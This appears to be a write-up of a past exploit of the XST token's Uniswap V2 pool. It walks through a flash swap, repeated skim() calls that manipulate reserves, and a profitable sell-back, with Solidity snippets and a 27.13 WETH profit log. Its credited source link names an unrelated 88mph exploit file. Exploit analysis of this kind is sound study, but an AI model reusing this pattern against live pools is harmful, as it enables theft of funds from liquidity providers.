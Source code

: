 # XST

## What's XST?
XST is the platform's native cryptocurrency. Using XST, transaction validators acquire their rights to process transactions. These rights are tokenized as NFTs, movable assets known as StealthNodes, each of which is assigned a slot in a block validation schedule.

## Amount stolen
27.13 WETH


## Vulnerability
Skimming logic

## Analysis

The XST token on Uniswap was exploited through a combination of swapping, skimming, and manipulating the liquidity pool. The attacker initiated a flash swap, performed skimming operations to claim tokens, and manipulated prices by selling tokens back to the pool. This led to a significant profit in WETH for the attacker.

# Proof of concept (PoC) 

We check the balance of WETH within the XST pool on Uniswap and initiate a swap for twice that amount. This action triggers a callback, invoking our custom `uniswapV2Call` function.

```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


In our `uniswapV2Call` we proceed by getting the current reserves of the XST/WETH pair on Uniswap

![XTS Image](../images/XTS/label.drawio.png)



```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); 
```

![XTS Image](../images/XTS/before.drawio.png)




### Calculate swap

To execute a swap on Uniswap, we adhere to the Uniswap formula, inserting the required parameters for swaps.
With the following parameters:

![XTS Image](../images/XTS/para1.drawio.png)

![XTS Image](../images/XTS/formula.drawio.png)
```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```

Finally, swap the WETH tokens for XST tokens in the liquidity pool of Uniswap XST

```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


### Skimming

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


After skimming the tokens we sell the XST tokens to the WETH liquitiy pool, which allows us to manipulate the price within this flash swap.


```solidity
   XST.transfer(address(Pair2), XST.balanceOf(address(this)));
```

![XTS Image](../images/XTS/liq.drawio.png)

Now we repeat the previous steps with new values:

### Calculate swap

![XTS Image](../images/XTS/para2.drawio.png)



![XTS Image](../images/XTS/after.drawio.png)


```solidity
   uint256 amountOutWETH = amountSellXST * 997 * reserve1 / (reserve0 * 1000 + amountSellXST * 997);
```


### Swap for profit

```solidity
   Pair2.swap(0, amountOutWETH, address(this), "");
```


### Repay flashloan

```solidity
   WETH.transfer(address(Pair1), (amount * 2) * 1000 / 997 + 1000);
```




### Profit

Since we initiated the flash swap with 78 WETH, and at the end of the flash swap had 105 WETH, we were able to send the profit back to our wallet


![XTS Image](../images/XTS/profit.drawio.png)



```
  Attacker WETH profit before exploit: 0.000000000000000000
  Attacker WETH profit after exploit: 27.130181656842120567
```


## Conclusion

Because the XST tokens balance in the pool was increasing, while the reserves stayed the same, it caused the second swap to be manipulated in a way that led to extreme profits for the attacker.



**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
